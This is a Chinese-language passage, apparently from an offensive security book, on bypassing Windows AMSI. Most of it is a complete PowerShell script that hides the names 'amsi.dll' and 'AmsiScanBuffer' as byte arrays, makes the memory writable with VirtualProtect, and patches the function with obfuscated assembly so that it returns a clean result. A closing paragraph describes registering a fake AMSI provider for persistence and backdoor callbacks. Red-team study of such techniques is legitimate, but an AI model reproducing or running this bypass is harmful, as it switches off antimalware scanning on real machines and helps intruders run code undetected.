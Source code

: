 我们可以通过几种方式在内存中操控 AMSI 来实现绕过。其背后的关键原因是我们完全控制了 **amsi.dll** 被加载的进程。一个例子是强制 **AmsiScanBuffer** 返回 **AMSI_RESULT_CLEAN**。一般思路是导入 API 调用，然后返回一个特定的值给 **AmsiScanBuffer()** 调用：**0x80070057**。原始的绕过方法现在已被 AMSI 检测到，因此我们可以通过使用双重 **add** 操作数并成功绕过控制来操控汇编指令。相关代码如下：

```
$Win32 = @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@
Add-Type $Win32
$test = [Byte[]](0x61, 0x6d, 0x73, 0x69, 0x2e, 0x64, 0x6c, 0x6c)
$LoadLibrary = [Win32]::LoadLibrary([System.Text.Encoding]::ASCII.GetString($test))
$test2 = [Byte[]] (0x41, 0x6d, 0x73, 0x69, 0x53, 0x63, 0x61, 0x6e, 0x42, 0x75, 0x66, 0x66, 0x65, 0x72)
$Address = [Win32]::GetProcAddress($LoadLibrary, [System.Text.Encoding]::ASCII.GetString($test2))
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0x31, 0xC0, 0x05, 0x78, 0x01, 0x19, 0x7F, 0x05, 0xDF, 0xFE, 0xED, 0x00, 0xC3)
#0:  31 c0                   xor    eax,eax
#2:  05 78 01 19 7f          add    eax,0x7f190178
#7:  05 df fe ed 00          add    eax,0xedfedf
#c:  c3                      ret
#for ($i=0; $i -lt $Patch.Length;$i++){$Patch[$i] = $Patch[$i] -0x2}
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, $Patch.Length)
```

运行上述命令得到的结果如下：

![图 2.6 – 使用内存补丁成功解除 AMSI 防护](img/B18964_02_06.jpg)

图 2.6 – 使用内存补丁成功解除 AMSI 防护

作为攻击者，我们不能忽视一些防御机制也可能被滥用和绕过的事实。一个很好的例子是 *netbiosX*[8] 发布的内容，指出 AMSI 可以用来在被攻破的主机上实现持久性。利用之前的研究和他们的编码技巧，开发了一个伪造的 AMSI 提供者并在被攻破的主机上注册。通过使用特殊的关键词，我们可以从后门发起回调。

